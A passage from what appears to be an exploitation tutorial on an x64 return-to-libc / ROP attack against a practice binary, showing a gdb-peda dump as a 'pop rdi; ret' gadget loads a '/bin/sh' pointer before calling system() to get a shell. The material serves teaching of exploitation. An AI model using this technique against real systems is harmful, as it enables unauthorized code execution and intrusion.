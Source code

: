 
Let's execute `pop rdi; ret` now, which will put the current top of the stack into `RDI`, which is our shell pointer.  
Since our chosen gadget ends with a `ret` statment it's next in the execution flow.  
It will continue execution with the next instruction `RSP` points to, which is our `system()` call!


```
[----------------------------------registers-----------------------------------]
[...]
RDI: 0x7f6c34de1d57 --> 0x68732f6e69622f ('/bin/sh')
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffdc2a904b8 --> 0x7f6c34c9a390 (<__libc_system>:	test   rdi,rdi)
RIP: 0x400904 (<__libc_csu_init+100>:	ret)
[...]
[-------------------------------------code-------------------------------------]
   0x4008fe <__libc_csu_init+94>:	pop    r13
   0x400900 <__libc_csu_init+96>:	pop    r14
   0x400902 <__libc_csu_init+98>:	pop    r15
=> 0x400904 <__libc_csu_init+100>:	ret    
   0x400905:	nop
   0x400906:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x400910 <__libc_csu_fini>:	repz ret 
   0x400912:	add    BYTE PTR [rax],al
[------------------------------------stack-------------------------------------]
0000| 0x7ffdc2a904b8 --> 0x7f6c34c9a390 (<__libc_system>:	test   rdi,rdi)
0008| 0x7ffdc2a904c0 --> 0x40080a (<trustMeIAmAnEngineer+70>:	je     0x400811 <trustMeIAmAnEngineer+77>)
0016| 0x7ffdc2a904c8 --> 0x7f6c34c75830 (<__libc_start_main+240>:	mov    edi,eax)
0024| 0x7ffdc2a904d0 --> 0x0 
0032| 0x7ffdc2a904d8 --> 0x7ffdc2a905a8 --> 0x7ffdc2a92109 ("./binaries/vuln_x64")
0040| 0x7ffdc2a904e0 --> 0x135244ca0 
0048| 0x7ffdc2a904e8 --> 0x400813 (<main>:	push   rbp)
0056| 0x7ffdc2a904f0 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ 
```

Remember what I introduced in the x64 exploitation crash course?  
The first function argument on x64 *needs* to be put in `RDI`.  
We managed to place our pointer to `/bin/sh` there.  
And that's all actually!  
Next `system()` is called with the contents of `RDI` as a function argument that gets us a shell.  

> Alternative PoC: vmmap reveals that our stack ends at 0x00007ffdc2a93000 the 62th value in the leak is within the stack frame (0x7ffdc2a905a0). We  could leverage this to call `mprotect()` on the stack to make him executable again too!

### PoC


https://asciinema.org/a/BaC2iCKPl4xSDSAjTvEO8QsNQ
